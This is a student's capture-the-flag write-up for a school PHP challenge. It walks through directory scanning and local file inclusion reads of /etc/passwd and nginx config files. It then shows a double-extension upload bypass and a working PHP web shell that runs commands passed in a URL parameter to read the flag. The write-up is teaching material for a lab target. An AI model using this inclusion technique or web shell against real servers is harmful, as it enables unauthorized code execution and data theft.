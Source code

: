 # PHP include Write Up

This is my school CTF challenge

## Web first look:

![image-20240905233221271](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240905233221271.png)

Our task is clear, when we deal with a file upload, we should try to search directory for the file upload,

after running the

```bash
dirsearch -u http://10.214.160.13:10001
```

![47](C:\Users\ASUS\Desktop\Write Ups\images\47.png)

I retrieved some directory from the website such as **file.php** and **flag.php** but currently two of them dont contain any use yet

Looking at the link format I suggest the website might be vulnurable to **Local File Inclusion**: 

```apl
http://10.214.160.13:10001/index.php?f=/etc/passwd
```

the output :

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false nginx:x:104:107:nginx user,,,:/nonexistent:/bin/false
```

Next I tried checking the nginx configuration:

```apl
http://10.214.160.13:10001/index.php?f=/etc/nginx/nginx.conf
```

I retrieved :

```
user nginx; worker_processes 1; error_log /var/log/nginx/error.log warn; pid /var/run/nginx.pid; events { worker_connections 1024; } http { include /etc/nginx/mime.types; default_type application/octet-stream; log_format main '$remote_addr - $remote_user [$time_local] "$request" ' '$status $body_bytes_sent "$http_referer" ' '"$http_user_agent" "$http_x_forwarded_for"'; access_log /var/log/nginx/access.log main; sendfile on; #tcp_nopush on; keepalive_timeout 65; #gzip on; include /etc/nginx/conf.d/*.conf; }
```



By checking the mime.type

```apl
http://10.214.160.13:10001/index.php?f=/etc/nginx/mime.types
```

retrieved :

```
types { text/html html htm shtml; text/css css; text/xml xml; image/gif gif; image/jpeg jpeg jpg; application/javascript js; application/atom+xml atom; application/rss+xml rss; text/mathml mml; text/plain txt; text/vnd.sun.j2me.app-descriptor jad; text/vnd.wap.wml wml; text/x-component htc; image/png png; image/tiff tif tiff; image/vnd.wap.wbmp wbmp; image/x-icon ico; image/x-jng jng; image/x-ms-bmp bmp; image/svg+xml svg svgz; image/webp webp; application/font-woff woff; application/java-archive jar war ear; application/json json; application/mac-binhex40 hqx; application/msword doc; application/pdf pdf; application/postscript ps eps ai; application/rtf rtf; application/vnd.apple.mpegurl m3u8; application/vnd.ms-excel xls; application/vnd.ms-fontobject eot; application/vnd.ms-powerpoint ppt; application/vnd.wap.wmlc wmlc; application/vnd.google-earth.kml+xml kml; application/vnd.google-earth.kmz kmz; application/x-7z-compressed 7z; application/x-cocoa cco; application/x-java-archive-diff jardiff; application/x-java-jnlp-file jnlp; application/x-makeself run; application/x-perl pl pm; application/x-pilot prc pdb; application/x-rar-compressed rar; application/x-redhat-package-manager rpm; application/x-sea sea; application/x-shockwave-flash swf; application/x-stuffit sit; application/x-tcl tcl tk; application/x-x509-ca-cert der pem crt; application/x-xpinstall xpi; application/xhtml+xml xhtml; application/xspf+xml xspf; application/zip zip; application/octet-stream bin exe dll; application/octet-stream deb; application/octet-stream dmg; application/octet-stream iso img; application/octet-stream msi msp msm; application/vnd.openxmlformats-officedocument.wordprocessingml.document docx; application/vnd.openxmlformats-officedocument.spreadsheetml.sheet xlsx; application/vnd.openxmlformats-officedocument.presentationml.presentation pptx; audio/midi mid midi kar; audio/mpeg mp3; audio/ogg ogg; audio/x-m4a m4a; audio/x-realaudio ra; video/3gpp 3gpp 3gp; video/mp2t ts; video/mp4 mp4; video/mpeg mpeg mpg; video/quicktime mov; video/webm webm; video/x-flv flv; video/x-m4v m4v; video/x-mng mng; video/x-ms-asf asx asf; video/x-ms-wmv wmv; video/x-msvideo avi; }
```

### From the mime.types the key points are :

Files are are served with specific MIME types based on their extensions

* `.php` files are typically served as `text/html` but are processed as PHP
* `.jpg`, `.jpeg`, `.png`, `.gif` are served as image types
* `.exe`, `.dll`, `.bin` are served as `application/octet-stream`, meaning they are treated as binary data

After seing the mime types I tried to upload an image file (.png)

and succesfully uploaded it: 
![image-20240909200806641](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240909200806641.png)

![image-20240909200839307](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240909200839307.png)

the image showed up after uploading

since the .php / .phtml / .html / .txt / etc don't work and only takes us to the file.php.

I figure it out to use double extention trojan so I tried injecting

```php
<?php echo "PHP execution confirmed!"; ?>
```

into a file named ***test.php.png***

and by seing the url format, I can conclude that the url has vulnurable parameter and that is the **f**

```
http://10.214.160.13:10001/index.php?f=upload.php
```

after acessing the malicious double extention trojan horse through the vulnurable parameter **f**

```
http://10.214.160.13:10001/index.php?f=upload/20240911920984.png
```

![image-20240911104947530](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240911104947530.png)	

after confirming the injected php, next we upload a cmd to operate remote code control **RCE**

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```

and give it also a double extention for example : final.php.png

and edit after uploading it try calling the cmd like this :

```
http://10.214.160.13:10001/index.php?f=upload/20240911418852.png&cmd=ls
```

![image-20240911105455428](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240911105455428.png)

and it listed all the .php file in the directory, next we **cat** the flag.php file and inspect the element inside it

```
http://10.214.160.13:10001/index.php?f=upload/20240911418852.png&cmd=cat%20flag.php
```

![52](C:\Users\ASUS\Desktop\Write Ups\images\52.png)

and we receive the flag contained inside it

Flag : **AAA{m310dy_1s_wAitinG_4_y0u_h3r3_qq_qun_~~~}** ~~ for privacy purpose
